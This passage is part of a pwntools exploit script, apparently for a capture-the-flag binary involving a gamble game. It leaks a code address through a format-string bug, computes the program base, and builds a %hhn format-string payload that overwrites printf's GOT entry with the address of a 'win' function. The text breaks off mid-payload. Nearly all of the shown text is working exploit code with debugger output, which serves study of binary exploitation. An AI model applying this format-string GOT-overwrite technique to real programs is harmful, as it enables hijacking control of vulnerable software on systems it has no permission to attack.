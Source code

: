 ```
# 01:0004│     0xffffcd74 —▸ 0x56559ed4 (g_player+20) ◂— '%3$p'
# 02:0008│     0xffffcd78 ◂— 0x100
# 03:000c│     0xffffcd7c —▸ 0x56556ffc (do_gamble+295) ◂— sub    eax, 1
# 04:0010│     0xffffcd80 —▸ 0xf7fdf2c9 (check_match+9) ◂— add    edi, 0x1dd37
# 05:0014│ eax 0xffffcd84 ◂— '%3$p'
# 06:0018│     0xffffcd88 ◂— 0x0
#=======================================================
# %1 is where g_player+20 is which stores our name
# %2 shows 0x100
# %3 shows the do_gamble functon address. We can use this to get our
# offset for base
# do_gamble offset is 0x1ed5
base = int(leak, 16) - 295 - 0x1ed5
log.info(hex(base))
p.recvuntil(b'do? ', drop=True)
# For some reason, we need to press twice
p.sendline()
p.sendline("c")
p.recvline()
# From GOT table, lets overwrite printf, offset = 0x4cd0
win = base + 0x1537

target = base + 0x4cd0
log.info(hex(target))
payload = p32(target)
payload += p32(target + 1)
payload += p32(target + 2)
payload += p32(target + 3)

win = str(hex(win))

first_byte = win[8:]
log.info(first_byte)
first_byte = int(first_byte, 16)

second_byte = win[6:8]
log.info(second_byte)
second_byte = int(second_byte, 16)

third_byte = win[4:6]
log.info(third_byte)
third_byte = int(third_byte, 16)

fourth_byte = win[2:4]
log.info(fourth_byte)
fourth_byte = int(fourth_byte, 16)

fourth_byte = fourth_byte + 0x100 - third_byte
third_byte = third_byte + 0x100 - second_byte
second_byte = second_byte + 0x100 - first_byte
first_byte = first_byte + 0x100 - len(payload)

log.info(str(first_byte))
log.info(str(second_byte))
log.info(str(third_byte))
log.info(str(fourth_byte))
# We can't hardcode address since they change.

#first_byte = u8(p32(win)[0]) + 0x100 - len(payload)

payload += f"%{first_byte}x%5$hhn".encode()

#second_byte = u8(p32(win)[1]) + 0x100 - u8(p32(win)[0])
```